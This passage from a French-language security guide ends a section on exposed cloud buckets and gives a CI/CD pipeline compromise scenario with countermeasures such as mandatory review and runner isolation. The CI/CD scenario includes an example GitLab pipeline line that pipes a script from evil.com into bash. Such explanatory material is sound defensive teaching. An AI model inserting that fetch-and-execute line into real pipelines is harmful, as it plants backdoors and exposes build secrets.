#### ✅ Block Public Access (AWS) / équivalents
- Forcer tous les buckets à rester privés sauf exception.  
- **Pourquoi ça protège** : empêche l’exposition accidentelle.  

#### ✅ Policies IAM précises
- Autoriser uniquement des utilisateurs/roles définis.  
- **Pourquoi ça protège** : contrôle fin des accès aux ressources.  

#### ✅ Audit automatisé
- Outils comme AWS Config, GCP Security Scanner.  
- **Pourquoi ça protège** : détecte immédiatement un bucket exposé.  

---

## 24. Compromission de pipeline CI/CD

### 1. Situation de départ
Une entreprise utilise GitLab CI pour déployer automatiquement son application en production.  
Le pipeline utilise des scripts stockés dans `.gitlab-ci.yml`.

### 2. Ce que fait l’attaquant
- Il pousse un commit malveillant modifiant le pipeline :  
```yaml
script:
  curl http://evil.com/malware.sh | bash
```

- Le pipeline exécute le code malveillant avec les droits du runner.

### 3. Conséquence

- Déploiement d’un backdoor en production.
- Compromission des serveurs de build.

### 4. Pourquoi c’est possible

- Pas de revue de code obligatoire sur les fichiers de configuration CI/CD.
- Les runners ont accès à des secrets (API keys, credentials).

### 5. Contre-mesures

#### ✅ Revue obligatoire des pipelines

- Les modifications CI/CD doivent être validées par plusieurs reviewers.
- **Pourquoi ça protège** : empêche qu’un attaquant injecte du code sans contrôle.

#### ✅ Isolation des runners

- Runners CI/CD dédiés, avec peu de privilèges.
- **Pourquoi ça protège** : même si compromis, l’impact est limité.

#### ✅ Rotation des secrets
